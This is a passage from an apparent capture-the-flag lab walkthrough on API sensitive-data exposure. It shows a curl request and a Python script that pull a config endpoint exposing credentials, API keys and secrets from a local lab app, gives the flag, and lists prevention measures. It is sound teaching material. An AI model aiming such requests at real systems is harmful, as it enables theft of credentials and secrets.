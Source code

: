 **Explanation:** Verbose error messages reveal internal implementation details useful for attackers.

#### Step 3: Access Configuration Endpoint
**Objective:** Extract sensitive configuration data

**Using curl:**
```bash
curl "http://localhost:5000/api/vuln/api-sensitive-data?endpoint=config"
```

**Flag:** `FLAG{config_exposure_critical}`
**Exposed configuration:**
- Database connection string with credentials
- API keys for third-party services (AWS, Stripe, SendGrid)
- Secret encryption keys
- Admin email and credentials
- Debug mode status

**Explanation:** Configuration endpoints should never be publicly accessible - they contain critical secrets.

### Automation Script
**Python script to extract all sensitive data:**
```python
import requests
import json

base_url = "http://localhost:5000/api/vuln/api-sensitive-data"
endpoints = ["profile", "error", "config"]

for endpoint in endpoints:
    response = requests.get(f"{base_url}?endpoint={endpoint}")
    data = response.json()
    print(f"\n=== {endpoint.upper()} ENDPOINT ===")
    print(json.dumps(data, indent=2))
    if 'flag' in data:
        print(f"\n🚩 FLAG: {data['flag']}")
```

### Prevention Measures
1. Return only necessary data in API responses
2. Never include passwords, tokens, or hashes in responses
3. Implement data minimization principles
4. Use generic error messages in production
5. Remove stack traces and debug info from production
6. Separate internal/external API response schemas
7. Use DTO (Data Transfer Objects) pattern

---

## 11. Predictable IDs & IDOR
